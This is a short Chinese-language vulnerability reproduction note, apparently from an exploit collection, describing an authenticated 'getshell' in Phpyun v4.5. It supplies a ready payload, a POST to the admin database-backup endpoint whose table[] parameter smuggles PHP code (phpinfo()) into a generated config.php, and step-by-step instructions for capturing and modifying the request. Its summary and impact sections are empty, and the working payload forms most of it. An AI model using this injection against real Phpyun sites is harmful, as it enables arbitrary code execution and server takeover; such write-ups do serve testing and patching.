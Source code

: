 Phpyun v4.5 后台getshell
========================

一、漏洞简介
------------

二、漏洞影响
------------

Phpyun v4.5

三、复现过程
------------

### payload：

    Url： http://www.0-sec.org/admin/index.php?m=database&c=backup  

    Post： 
    pytoken=3c3140b58f5e&table[]=]=1;phpinfo();//&maxfilesize=1111

漏洞复现过程：
首先进入后台-》点击工具-》数据-》数据库管理-》自定义备份-》随便选择一个表-》提交备份

![](./resource/Phpyunv4.5后台getshell/media/rId25.png)

抓包，修改table\[\] 参数-》发送

![](./resource/Phpyunv4.5后台getshell/media/rId26.png)

![](./resource/Phpyunv4.5后台getshell/media/rId27.png)

产生的文件就在uploads/data/plus/bdata/phpyun\_20200312153927/config.phpUrl：访问（这里搭建的时候环境，我默认指向了uploads）

![](./resource/Phpyunv4.5后台getshell/media/rId28.png)
